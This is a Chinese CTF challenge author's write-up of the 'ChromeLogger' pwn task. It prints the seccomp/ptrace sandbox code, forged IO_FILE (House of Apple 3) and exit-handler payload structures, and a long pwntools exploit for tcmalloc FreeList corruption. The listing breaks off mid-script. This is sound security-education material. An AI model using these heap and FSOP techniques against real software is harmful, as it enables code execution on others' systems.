





# ChromeLogger 出题博客

当你看到这篇博客的时候，安恒官方的wp应该已经放出了，你也大概是因为看到了wp中夹带的网址而来，
并且是有一定基础的pwner，来都来了，可以在discussion中尽情吐槽。说实话，
我自认为这题的难度没有这么高，怎么说8个小时还是能做出来的，结果最后也没人做出来，
感觉题白出了:(

不知道是不是大家对新事物的接受能力不高，WhereIsMySauce做出来的人也不多。
难道是看到libtcmalloc大家就不知道怎么下手了？

## 缘起

在ctf-wiki上，记载了多个堆实现，除了常见的ptmalloc，还有tcmalloc和jemalloc，
于是我一时兴起，找了找有关文章，想借此出题。其中jemalloc比较难利用，
因为在拿到的堆块附近没有任何堆的元数据，反倒是tcmalloc在堆块附近有很多堆指针。


于是我就随便改了一个指针，然后分配2次同样大小的堆块就实现了任意堆块分配。
这么好写？拿来出题正好，也不需要看源码，只要稍微调试一下就能看出这个特性了，
我想。

## 利用链

有了任意堆块分配，怎么样实现任意代码执行呢？首先我们需要获得libc，否则无法做任何事。
于是我就找一条链子来获取libc。由于分配了堆块后一般要进行写入的操作，
因此我们不考虑只读段的指针。

在我的系统 *Arch Linux* 上，所有GOT表都是只读的，因此需要经过以下这么一条曲折的路径：


当我正想着这题难度还挺高时，ubuntu的库却出乎我的意料：我原本想着从libc 2.38开始，
libc的got表就不可写了，这样可以提高一点难度，结果Full RELRO **只有** libc开了，
其他的lib的got仍然是可写的：


要保留这个特性吗？还是把Arch的库放到靶机里，让got表不可写？我想了想，没有got感觉太麻烦了，
构造起来有点费事，还是让got表保持原样吧。现在有了libc，接下来就是考虑如何rce。
按传统的思路来说，改libtcmalloc的got表或者走House of Apple就可以控制rip，
但是这是不是就和往常的题差不多了？

## No OneGadget

纠结的点无非是OneGadget，无脑套OneGadget疑似太简单了，但是我又不想把题做得很恶心，
没法拿shell，于是根据之前刚学的ptrace，我想了个折中的方法：父进程起ptrace监视子进程，
子进程开放给用户，每当子进程想要`execve`，我就检查第一个参数是不是`"/bin/sh"`，
如果是的话就拒绝，不是就放行。通过这种方式，很好地避免了OneGadget的使用，
因为OneGadget都是打开`"/bin/sh"`的。

```c
// use_ptrace.c
#ifdef USE_PTRACE
#include "use_ptrace.h"

static void hypervisor(pid_t child) {
    int status;
    waitpid(child, &status, 0);
    if (ptrace(PTRACE_SETOPTIONS, child, 0, PTRACE_O_TRACESECCOMP) == -1) {
        kill(child, SIGKILL);
        puts("\x1b[31mCAN NOT SET UP HYPERVISOR\x1b[0m");
        exit(EXIT_FAILURE);
    }

    while (1) {
        ptrace(PTRACE_CONT, child, 0, 0);
        waitpid(child, &status, 0);
        if (WIFEXITED(status))
            exit(WEXITSTATUS(status));
        if (WIFSIGNALED(status))
            exit(WTERMSIG(status));
        if (!(WIFSTOPPED(status) && (status >> 16) == PTRACE_EVENT_SECCOMP))
            continue;
        const char *path = (const char *)ptrace(PTRACE_PEEKUSER, child, sizeof(size_t) * RDI);
        char buf[8];
        *(long *)buf = ptrace(PTRACE_PEEKDATA, child, path);
        if (!strcmp(buf, "/bin/sh")) {
            puts("[\x1b[31mx\x1b[0m] From hypervisor: /bin/sh detected!!");
            kill(child, SIGKILL);
        }
    }
}

void SetupPassthru(void) {
        pid_t pid = fork();
        if (pid)
            hypervisor(pid);
        ptrace(PTRACE_TRACEME, 0);
        raise(SIGTRAP);
}
#endif
```

本来我只是想ban一下OneGadget，结果没考虑到副作用，`system`用的是`/bin/sh -c $CMD`，
一起被ban了（不过根本原因是`system`会起一个新进程，而父进程的ptrace不会自动挂到新进程上，
因此由于子进程没有挂调试器，`execve`直接失败了）。

后来看seccomp的文档发现在"RET_TRACE"之上还有一个"RET_TRAP"，可以通过信号来处理，
考虑到用ptrace方案会导致调试变得困难，后来我选择了信号处理器的方案：

```c
// use_signal.c
#ifndef USE_PTRACE
#define _GNU_SOURCE
#include "use_signal.h"

static void filterOneGadget(int sig, siginfo_t *info, void *ctx) {
    if (!(sig == SIGSYS && info && info->si_code == SYS_SECCOMP))
        return;
    ucontext_t *uctx = ctx;
    const char *rdi = (const char *)uctx->uc_mcontext.gregs[REG_RDI];
    if (!strcmp(rdi, "/bin/sh")) {
        puts("[\x1b[31mx\x1b[0m] From hypervisor: /bin/sh detected!!");
        return;
    }
    void *rsi = (void *)uctx->uc_mcontext.gregs[REG_RSI];
    void *rdx = (void *)uctx->uc_mcontext.gregs[REG_RDX];
    execveat(AT_FDCWD, rdi, rsi, rdx, 0);
}

void SetupPassthru(void) {
    struct sigaction act;
    act.sa_sigaction = filterOneGadget;
    sigemptyset(&act.sa_mask);
    act.sa_flags = SA_SIGINFO;
    sigaction(SIGSYS, &act, NULL);
}
#endif
```

不过可惜的是信号处理器方案同样只能保证当前进程可用，`fork`后就不起效了，
因此`system`会和ptrace方案一样不可用。

最后贴一下沙箱实现：

```c
// chall.c
__attribute__((noinline))
static int sandbox(void) {
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_ALLOW);
    if (ctx == NULL)
        return -1;

#ifdef USE_PTRACE
    int rc = seccomp_rule_add(ctx, SCMP_ACT_TRACE(0), SCMP_SYS(execve), 0);
    if (rc < 0)
        goto cleanup;
    rc = seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);
#else
    int rc = seccomp_rule_add(ctx, SCMP_ACT_TRAP, SCMP_SYS(execve), 0);
#endif
    if (rc < 0)
        goto cleanup;
    rc = seccomp_load(ctx);

cleanup:
    seccomp_release(ctx);
    return rc < 0 ? -1 : 0;
}
```

## No 2.35 ROP gadget

这么折腾以后麻烦了，既不能用OneGadget，也不能用`system`，难道只能走rop了吗？
之所以禁用OneGadget是为了防止一套板子直接走掉，那我这么设置，
不是让pwner直接套rop的板子么？想到这里，我开始思索怎么把常用的gadget给ban了：
我首先想到在exit的时候，扫描一遍堆块，看看里面有没有可疑的gadget，
比如`svcudp_reply+26`或者`getkeyserv_handle+576`，但是感觉判断起来挺麻烦的；
我又想到，既然这几个函数在正常的操作中不会用到，
那我可以先`mprotect`libc的`.text`为可写段，然后把这些常用函数直接覆写为`NOP`，
然后再`mprotect`回可执行，就可以避免任何形式的调用了。

当我正在考虑这么做是不是有点剑走偏锋时，我反汇编了一下这些函数，
发现2.35的gadget在2.39上全都不能用了！那我也不需要patch了，直接就利用不了，
各位pwner就自己找gadget吧！

> 好像新的gcc大幅更新了生成的汇编的安全性，很少使用rbp、rsp作为中间变量了，
> 导致了不少gadget失效

## Back to execve

之前写到我只是把`execve`的第一个参数过滤了一下，`execve`仍然是可用的，
这也意味着只要找到一个办法能调用`execve`，就可以一步拿shell，虽然后续不能运行新程序，
但是可以通过`read FLAG < flag; echo $FLAG`的方式读出flag，这相比orw还是省力不少。

接下来就是找这样的函数。除了`posix_spawn`和`system`，libc中能shell的函数就只有`exec`族了。
通过`man exec.3`查看这一族的文档，发现`execv`和`execvp`只需要控制2个参数就能拿shell，
什么house可以胜任呢？ *House of Apple 2*, *House of Lyn*等，都只能控制rdi，rsi固定是-1，
我只能找上了[House of Apple 3](https://bbs.kanxue.com/thread-273863.htm)，在默认条件下，
*House of Apple 3*可以控制rsi。继续研究利用原理，rdi其实也是能控制的，只是在文中，
[rdi]如果非0，则函数指针会过一遍`PTR_DEMANGLE`。既然找遍了能用的路子都没法控制rsi，
那就给做题人一个`PTR_MANGLE`的机会吧！

为了避免`PTR_MANGLE`被利用导致可以加解密任意数据，我把它放在了`exit`前，
这样做题人就只能做一次`PTR_MANGLE`。

> [!NOTE]
> 为了找一个能控制rdi和rsi的house，我想起了pwn college的视频，里面提到一个angr大师，
> 通过模拟符号执行的方式，[遍历所有FSOP可能](https://blog.kylebot.net/2022/10/22/angry-FSROP/)，
> 文中有一个仓库，存放了运行结果(pickle)。但是由于不知道这些pickle生成时的环境，
> 我久久不能得知真正的路径。我提了个[issue](https://github.com/Kyle-Kyle/angry-FSROP/issues/1)，
> 希望作者可以重跑一次，但是作者答应后就杳无音信了，于是我借用了同学的超大内存服务器
> （原先我自己跑过脚本，然后爆内存了），跑模拟符号执行的脚本并生成了pickle，
> 还把结果放回了issue中，感兴趣的同学可以自行阅读过程。省流：
> angr找到的路子都无法直接控制rdi和rsi。

最后精心构造 *House of Apple 3* 的payload，我们可以运行`execvp("bash", (char *[]){"bash", NULL})`，
从而拿到远程的shell，获取flag。

## 设计题目

tcmalloc是谷歌研发的，听说曾经用在Chromium上过，而对于浏览器来说，
打log是再正常不过的与文本交互的操作，于是我就给它命名为 **ChromeLogger** 。
作为ascii艺术爱好者，我又去从fastfetch那搞了个Chrome的logo，还去生成了艺术字，
用来打印"logger"。


> 希望不要有师傅看到Chrome还以为是v8题

根据我对FreeList的poc，我打算就简单搞个堆溢出，既然如此，那我`free`也不给了，
反正只要`malloc`就能实现任意堆块分配。

> 也许我哪一天会再出一题考uaf或者和`free`有关的攻击，不过那就要等我读完源码了。

想着直接堆溢出有点太无脑了，我就用到了大部分人只见过却没研究过的`setvbuf`。
本来我的想法是让`stdout`和`stderr`的缓冲区堆块可以由pwner来分配，
并且设置缓冲区大小为固定值，`stdout`和`stderr`的缓冲区各可以分配一次。
此时如果将过小的堆块作为标准IO的缓冲区，那在做`puts`等IO操作时，
就会发生堆溢出，将数据写到FreeList上。后来想想2次有点少了，
还得分别写`stdout`和`stderr`的接口，就给无限次换`stdout`的缓冲区的机会了。

作为logger，我还在分配堆块后给堆块写入了时间字符串，这一方面符合情景，
另一方面也考验pwner不能分配到只读段上。这样`NewLog`函数就设计好了。

接下来就是考虑怎样打印堆块信息。因为放在FreeList上的指针都是48-bit addr，
如果使用`write`来打印堆块显得不太自然；如果直接使用`puts`来打印堆块，
则设置好`stdout`的缓冲区后，由于无法打印'\0'字符，不可能在FreeList上构造一个完整的指针。
于是为了构造出完整的指针，我们需要完整地打印一个指针。具体来说，
使用`strlen`检测一个堆块的长度，然后将其向上对齐到8的边界，这样的话，
如果最后放着指针，就可以打印出完整的指针。


但是如果全部对齐到8边界，那么就不太好精准将指针覆盖在FreeList上，
因为每个输出都对齐到8边界，打印所有堆块时打印的字符数必然是8的倍数，
只要开始打印时`write_ptr`没有对齐到8边界，指针就无法刚好覆盖到FreeList上。


如图所示，我们要修改的是红色框处的FreeList，橙色框是当前的`write_ptr`，
紫色和粉色框交替出现，代表写入的字节向上对齐到8边界，因此不能恰好控制红色框。
为了解决这个问题，可以规定如果堆块中连续的非'\0'字符中的最后一个是'\n'，
则不对齐到8边界，而指针不可能高地址的字节是'\n'，因此对齐到8边界，
这样就能很方便地控制写指针前的`write_ptr`，起到引入一个堆块用以调节`write_ptr`，
然后下一个堆块就能把指针顺利写到FreeList上的作用。这样`DisplayLogs`也设计好了。

接下来就可以开始打了。考虑到本题并没有什么逆向上的考察，就保留了程序的符号。
既然比赛已经结束了，我也会公开[源码](sources/ChromeLogger/)，可以边看源码边看我的思路。
为了给pwner更舒适的调试体验，我还判断`argv`第一个参数是不是"PRIVILEDED"，
如果打开了“特权”，就不开启沙箱，方便调试。

## 依赖处理：是不是过于复杂？

接下来就是考虑将其放进容器里测试，需要下载`libseccomp2`和`google-perftools`来提供依赖库。
由于使用的ubuntu版本是24.04，还在更新当中，因此如何保持各种依赖库的版本保持不变很重要。
我的思路是先使用sha256哈希的方式指定ubuntu的版本，避免libc更新，再解析剩余的依赖库，
确定他们在容器中的位置，然后将我设计题目时的lib在容器构建时手动替换进去。
我的本意是希望能尽可能营造一个正常，贴合实际的环境，又不希望库发生变化。
具体表现就是源码中的[checkdeps.sh](sources/ChromeLogger/container/checkdeps.sh)。
但是 *dbgbgtf* 说这么做太繁琐了，不如直接给binary patchelf，使其只能使用复制进去的lib底下的库。

## 开始编写exp！

由于`DisplayLogs`是根据`strlen`来计算输出长度，而不是根据堆块大小，因此把堆块写满后，
就会和FreeList邻接，此时`DisplayLogs`会打印下下个要分配的堆块的地址，堆地址就轻松拿到了。
当我想着用做glibc堆题的思路，去减去一个固定的偏移去计算堆基址时，却发现得不到想要的指针。
多次调试发现堆基址竟然有50%的概率+0x1000，导致直接减偏移会有50%的概率打不通。
不管了，先尝试分配任意堆块：先分配一个堆块调`write_ptr`，然后再分配一个用以写FreeList为堆基址+0x50，
那里有我们想要的指针。然后分配一个堆块作为`stdout`的缓冲区，并使用`DisplayLogs`实现FreeList覆盖。
注意`setvbuf`时用的是`_IOFBF`，因此只有缓冲区满了才能向标准输出流打印信息，
因此`sendafter`就不可用了，只能用`sleep`来控制时间输入。





接着只要再分配2个堆块，就能拿到堆基址附近的堆块。上文提到的0x1000偏移也可以在这里判断：
我们可以减偏移的时候少减0x1000，这样有50%概率分配到正确的地址，也有50%的概率分配到错误的位置，
如果错误的话指针的位置是空的，就无法获取指针值，依此来判断是否分配到正确的地址，
如果错误就可以直接结束程序。



分配过去后，利用相同的思路，填充0x20字节以后通过2个`DisplayLogs`泄露指针，
计算出libtcmalloc的基址（1个`DisplayLogs`可能导致泄露的指针还卡在缓冲区里导致读不出）。

后面的思路就是分配到libtcmalloc.got泄露libc地址，然后构造堆块伪造IO_FILE，
根据固定偏移计算出fakeFile的堆块地址，然后分配到`_IO_list_all`把我们伪造的IO_FILE挂上去。
再进后门将堆块中的函数指针`PTR_MANGLE`，退出就能走FSOP打 *House of Apple 3* 。

```python
# payload of IO according to House of Apple 3, @ logs idx 10
forgedFile = flat({
    0:      0,  # file._flag
    0x10:   1,  # file._IO_read_end
    0x28:   1,  # file._IO_write_ptr
    0x30:   forgedFileAddr + 0x48,                  # _codecvt->__cd_in.step
    0x48:   b'bash',                                # step.__shlib_handle
    0x70:   libc.symbols['execvp'],                 # step.__fct
    0x88:   forgedFileAddr + 0x150,                 # file._lock
    0x98:   forgedFileAddr + 0x30,                  # file._codecvt
    0xa0:   forgedFileAddr + 0xe0,                  # file._wide_data 
    0xd8:   libc.symbols['_IO_wfile_jumps'] + 8,    # file._vtable
    0xe0:   forgedFileAddr + 0x48,                  # _wide_data._IO_read_ptr
    0xe8:   forgedFileAddr + 0x48,                  # _wide_data._IO_read_end
    0x110:  forgedFileAddr + 0x48,                  # _wide_data._IO_buf_base
    }, filler=b'\0') # be careful! a lot operations in the procedure
```



根据写出的fakeFile，我最终指定后门可以`PTR_MANGLE`一个堆块+0x80处的指针，
别忘了前面还有0x10的时间字符串！最终也是成功在本地起了bash。

> [!TIP]
> 还可以看到0xe0开始写了多个地址指向"bash"，
> 这是因为`_IO_wfile_underflow`中有如下操作：
> 
> ```c
> // glibc-2.38/source/libio/wfileops.c#L138
>     fp->_wide_data->_IO_last_state = fp->_wide_data->_IO_state;
>     fp->_wide_data->_IO_read_base = fp->_wide_data->_IO_read_ptr =
>         fp->_wide_data->_IO_buf_base;
> ```
> 
> 因此需要同时更改这几个字段，否则[rsi]的值就会被更改。像我这样子固定三个值后，
> rsi将会是`forgedFileAddr + 0xe0`，[rsi]是`forgedFileAddr + 0x48`，[rsi]+8是NULL。

## 诡异的堆偏移

当我写完exp后，我就起了容器，看容器内运行能不能跑得通。结果直接EOF了。
这怎么可能呢？！我在容器里装了gdb，然后attach到进程上调试，发现fakeFile的堆偏移变了，
0x20堆块后面的FreeList也是空的。于是我就把exp中的泄露堆地址的堆块大小换成了0x30，
然后在脚本里判断如果是本地就是什么偏移，在远程又是什么偏移...当我重新起容器，
以为能打通的时候，又打不通了。更诡异的是，我一装上gdb，远程又能打通了。
什么？tcmalloc怎么会和gdb有关系？我尝试最小复现这个现象，最后定位到了`tzdata`包，
装了就正常，不装就报错。那就装着吧，大概能解决问题。等我改好了Dockerfile，
又又又出新问题了：堆基址到0x30堆块的偏移发生了变化，拿之前的脚本怎么打都打不通。
我让 *dbgbgtf* 试试，他说堆基址到0x30堆块的偏移没变。

> [!TIP]
> 当时担心等到题目上线时堆基址到0x30堆块的偏移会变，我又在代码里加了`SubmitTask`，
> 通过任意堆块地址就可以获取堆基址，这样彻底解决了基址偏移的问题，不过一开始没启用。

为了防止fakeFile的堆块反复偏移，我再次套了泄露堆地址的方法，泄露了0x160堆块的地址，
计算出fakeFile的地址，这样就不用做固定偏移，避免了环境之间的差异。
这样一来通用脚本就可以同时打通本地和远程了。

## 预期中的非预期

终于，测试的一天到了，buu上起了测试靶机，我一测试，坏了，堆基址到0x30堆块的偏移又变了！
还好我做了准备直接启用`FALLBACK`宏重新编译ChromeLogger，直接给出堆基址，并微调脚本，
还好这个“非预期”被我“预期”到了。

之后安恒让我们测试题目是否有非预期解。之前我跳过了"exit_hook"有关的打法，
因为我认为只能注册无参函数，无法控制rdi和rsi。此时我觉得万一rdi，rsi符合条件呢？
我先测试了很多wp提到的`tls__dtor__list`，可惜，rsi是无效参数，rdi倒是可控，
原先使用rbp寄存器作为中转的方案，很方便就能rop，不过libc 2.38改掉了，没有利用可能了。

> [!NOTE]
> tls的destructor的添加是通过`__cxa_thread_atexit_impl`函数实现的，
> 并且是有一个`void *`的参数传给函数指针调用的，这个是我当时记错了。

既然看`exit`了，不如把整个源码读一下。结果一读发现还真有新的"hook"：
`__run_exit_handlers`中，每个 **exit_func** 都可以设置自己的类型，
如果是`atexit`则没有可控参数；如果是`onexit`则rdi是退出状态码，
rsi是可控参数；如果是`cxaexit`则rdi是可控参数，rsi是退出状态码。
由于我们是正常退出，因此可以利用`cxaexit`构造`execvp("bash", NULL)`，
同样可以拿shell。于是我改了改我的exp，用上了`cxaexit`，感觉比之前更好用，
因为可以把"bash"直接写在libc上，不需要再分配堆块，不需要考虑堆偏移。
这也算是被我预料到的非预期吧。

```python
# fake initial struct @ logs idx 12
fakeInitial = flat({
    0x38:   1,       # __new_exitfn_called
    0x60:   1,       # initial+8
    0x68:   4,
    0x70:   libc.symbols['execvp'], # be mangled later
    0x78:   initial - 0x68 + 11
    }, filler=b'\0')
```

> [!TIP]
> 讲讲这里hook的原理：`exit`会依次完成`__exit__funcs`中的回调函数，
> 而`__exit__funcs`又指向`initial`结构体，改了`initial`中的函数回调，
> 就能实现rip的控制。
>
> ```c
> // glibc-2.38/source/stdlib/exit.c#L101
>         case ef_cxa:
>             /* To avoid dlclose/exit race calling cxafct twice (BZ 22180),
>             we must mark this function as ef_free.  */
>             f->flavor = ef_free;
>             cxafct = f->func.cxa.fn;
>             arg = f->func.cxa.arg;
>             PTR_DEMANGLE (cxafct);
> 
>             /* Unlock the list while we call a foreign function.  */
>             __libc_lock_unlock (__exit_funcs_lock);
>             cxafct (arg, status);
>             __libc_lock_lock (__exit_funcs_lock);
>             break;
> ```
>
> *（用了2.38的代码，不过和2.39没差的）*  
> 当我写入`initial`后我还发现由于引入了C++库，`initial`中还有不少的函数指针，
> 检查了一下发现是libstdc++、ld和libtcmalloc的回调函数，而libtcmalloc的基地址是我们已知的，
> 因此理论上这道题甚至不需要给`PTR_MANGLE`，`fs:[0x30]`的值可以直接从`initial`中获取。
>
> 
>
> *demangle后的`initial`上的部分函数指针*  
> 根据以下法则就可以计算`fs:[0x30]`：
> `ror(func, 0x11) ^ fs:[0x30] == mangled => fs:[0x30] == mangled ^ ror(func, 0x11)`

最后我一开始在用Arch的库调试时看到了tcmalloc的NewHook和DeleteHook，
也去验证了一下这些hook能不能同时控制2个参数，可惜NewHook和malloc挂钩，
第一个参数是堆块地址，第二个参数是堆块大小，由于限制了size不能为0，
因此rsi无法为有效值；而DeleteHook虽然可能出现符合条件的rsi（`(char *[]){NULL}`），
但是rdi不可控（程序中没有`free`，也不能借由`scanf`调用），也无法利用。

> [!NOTE]
> `scanf`也会分配堆块释放堆块，这在不少wp中也有提到。比如我的题中就有读入`%d`，
> 分配堆块释放堆块的条件就是有很长很长的数字，例如"000000...1"（省略2000个0），
> 但是一旦中间出现非数字字符或'\0'，输入就会停止，因此无法控制释放的堆块内容刚好为"bash"。

这样一来，非预期大概就没有了，“非预期”也变成“预期”了。

## 完整EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT  = lambda x: f'\x1b[33m{x}\x1b[0m'
GREEN_TEXT = lambda x: f'\x1b[32m{x}\x1b[0m'
EXE = './ChromeLogger'
SLEEP = lambda : sleep(0.125)

def payload(lo: int, useFSOP: bool) -> bool:
    global sh
    if lo:
        if lo & 4:
            sh = process([EXE + '.g', 'PRIVILEGED'])
        else:
            sh = process(EXE + '.xg')
    else:
        sh = remote('node5.buuoj.cn', 26500)
    libc = ELF('./container/lib/libc.so.6')
    libtcmalloc = ELF('./container/lib/libtcmalloc.so.4')

    def dbg():
        if lo & 2:
            # gdb.attach(sh, 'b DisplayLogs\nb PTR_MANGLE\nc')
            gdb.attach(sh, 'b execvp')
            pause()

    def newlog(size: int, asbuf: bool, log: bytes):
        sh.sendline(b'1')
        SLEEP()
        sh.sendline(str(size).encode())
        SLEEP()
        sh.sendline(b'y' if asbuf else b'n')
        SLEEP()
        if not asbuf:
            sh.send(log)
            SLEEP()

    def displaylog():
        sh.sendline(b'2')
        SLEEP()

    def logout():
        sh.sendline(b'3')
        SLEEP()

    def backdoor(register: bool, idx: int=0):
        if register:
            sh.sendline(b'4')
            SLEEP()
        else:
            sh.sendline(str(idx).encode())
            SLEEP()

    def submit(heap: int) -> int:
        sh.sendline(b'5')
        sh.sendlineafter(b'HEAP', hex(heap).encode())
        sh.recvuntil(b'are: ')
        return int(sh.recv(14), 16)

    newlog(48, False, b'First, let us leak the heap base out:')
    displaylog()
    sh.recvuntil(b'out:')
    heap = u64(sh.recv(8))
    success(f"Get basic heap addr: {heap:#x}")
    heapBase = submit(heap)
    success(GOLD_TEXT(f"Leak heap base: {heapBase:#x}"))

    # 215 for alignment to make the addr on FreeList, 11 for timestr
    newlog(256, False,                          # 1 for trailing \n
           b'Write the addr on FreeList in tcmalloc via stdout, ' \
           b'then alloc one chunk move the addr to thread cache, ' \
           b'so the next chunk will be at the addr, i.e. ' \
           b'arb malloc. Alloc near heap base to get tcmalloc.' \
           .ljust(215 - 12) + b'\n')
    newlog(48, False, b' ' * 5 + p64(heapBase + 0x50))
    newlog(48, True, b'ignored') # overflowing 256 - 48 bytes
    displaylog() # write into buf, trigger buffer overflow

    newlog(48, False, b"Second, arb alloc for libtcmallocBase")
    info(GREEN_TEXT(f"Alloc @ {heapBase + 0x50:#x} to get libtcmalloc"))
    newlog(48, False, b"Crash, NULL required.")
    displaylog()
    displaylog() # we may display twice to see "required"

    sh.recvuntil(b'required.')
    tcmalloc = u64(sh.recv(8)) # get tcmalloc::Static::central_cache_+75408
    libtcmallocBase = tcmalloc - 0x194f30 - 0x46000
    success(GOLD_TEXT(f"Leak libtcmalloc base: {libtcmallocBase:#x}"))

    libtcmalloc.address = libtcmallocBase
    newlog(256, False, b'This challenge may be harder than I thought. ' \
            b'Now this is another padding.'.ljust(253 - 12) + b'\n')
    newlog(64, False, b' ' * 5 + p64(libtcmalloc.got['getpagesize'] - 16))
    newlog(64, True, b'ignored')
    displaylog()

    newlog(64, False, b"Third, we alloc to libtcmalloc.got to leak libc")
    info(GREEN_TEXT(f"Alloc @ {libtcmalloc.got['getpagesize'] - 16:#x} to get libc"))
    newlog(64, False, b'LIBC:')

    if useFSOP:
        newlog(0x160, False, 
                   b"Just a little bit of environment change commits to " \
                   b"heap change. Installing tzdata could cause 512-byte chunk " \
                   b"to have a different offset. I have to leak the offset, " \
                   b"instead of just calculate the offset. See more detail " \
                   b"about this challenge on my blog: https://rocketmadev.github.io" \
                   .ljust(0x160 - 17) + b'OFFSET')

    displaylog()
    displaylog()
    
    sh.recvuntil(b'LIBC:')
    libcBase = u64(sh.recv(8)) - libc.symbols['getpagesize']
    success(GOLD_TEXT(f"Leak libc base: {libcBase:#x}"))
    libc.address = libcBase
    
    if useFSOP:
        sh.recvuntil(b'OFFSET')
        forgedFileAddr = u64(sh.recv(8)) - 0x160 + 0x10 # skip time str
        assert forgedFileAddr & 0xff != 0xa, "unexpected empty FreeList after 0x160-size chunk"
        success(GOLD_TEXT(f"Leak forgedFileAddr: {forgedFileAddr:#x}"))
        
        # payload of IO according to House of Apple 3, @ logs idx 10
        forgedFile = flat({
            0:      0,  # file._flag
            0x10:   1,  # file._IO_read_end
            0x28:   1,  # file._IO_write_ptr
            0x30:   forgedFileAddr + 0x48,                  # _codecvt->__cd_in.step
            0x48:   b'bash',                                # step.__shlib_handle
            0x70:   libc.symbols['execvp'],                 # step.__fct
            0x88:   forgedFileAddr + 0x150,                 # file._lock
            0x98:   forgedFileAddr + 0x30,                  # file._codecvt
            0xa0:   forgedFileAddr + 0xe0,                  # file._wide_data 
            0xd8:   libc.symbols['_IO_wfile_jumps'] + 8,    # file._vtable
            0xe0:   forgedFileAddr + 0x48,                  # _wide_data._IO_read_ptr
            0xe8:   forgedFileAddr + 0x48,                  # _wide_data._IO_read_end
            0x110:  forgedFileAddr + 0x48,                  # _wide_data._IO_buf_base
            }, filler=b'\0') # be careful! a lot operations in the procedure
        newlog(0x160, False, b' ' * 5 + forgedFile)
        dbg()

        newlog(256, False, 
                b'As we can PTR_MANGLE, we control rdi and rsi. ' \
                b'rdi is "bash" and rsi is (char *[]){"bash", NULL}, ' \
                b'bypassing rdi=="/bin/sh".' \
                .ljust(0x93 - 12) + b'\n')
        newlog(80, False, b' ' * 5 + p64(libc.symbols['_IO_list_all'] - 16))
        newlog(80, True, b'ignored')
        displaylog()

        newlog(80, False, b"Finally, write forgedFileAddr on _IO_list_all")
